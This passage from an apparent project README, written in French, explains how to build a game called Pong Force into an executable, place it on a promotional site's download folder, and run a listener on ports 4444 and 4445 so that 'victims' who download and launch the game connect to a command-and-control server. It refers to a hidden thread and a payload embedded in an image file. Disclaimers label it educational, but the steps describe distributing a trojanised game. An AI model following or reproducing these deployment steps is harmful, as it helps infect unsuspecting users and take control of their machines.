3. **Lancer le build**  
   Toujours dans `pong_force/` :
   ```bash
   python build.py
   ```

4. **Copier l’exécutable dans `download/`**  
   Une fois le dossier `pong_force/dist/` créé, copier l’exe généré vers le dossier utilisé par le site pour le téléchargement :
   ```bash
   copy pong_force\dist\PongForce.exe download\PongForce.exe
   ```
   (sous Windows ; sous Linux/macOS : `cp pong_force/dist/PongForce.exe download/`.)

5. **Côté attaquant** : lancer `listener.py` (ports 4444 et 4445) sur la machine dont l’IP a été donnée à `encryptor.py`, avant que la cible n’exécute l’exe. Les victimes qui téléchargent et lancent le jeu depuis le site se connecteront alors au C2.

### Comment éviter le déclenchement

- **Ne pas exécuter** `main.py` ni `PongForce.exe` sur une machine que vous ne souhaitez pas compromettre.
- **Pour garder uniquement le jeu** : supprimer ou commenter dans `main.py` l’appel au thread (les 3 lignes qui créent et démarrent `sower_thread`), puis reconstruire l’exe avec `build.py`. Ne pas inclure `splash_payload.png` contenant un payload réel si le jeu doit être distribué.
- **Analyse sans risque** : exécuter dans une **machine virtuelle** ou un environnement dédié à la recherche en sécurité, sans accès à des données sensibles.

---

## 📄 Licence et usage

Ce dépôt contient le code du jeu **Pong Force**, du site promotionnel et du serveur de matchmaking. Certains fichiers ou modules peuvent être à usage éducatif ou expérimental ; n’exécutez que le code que vous comprenez et sur des systèmes pour lesquels vous avez l’autorisation.

---

**Pong Force** — *Smash. Push. Win.*
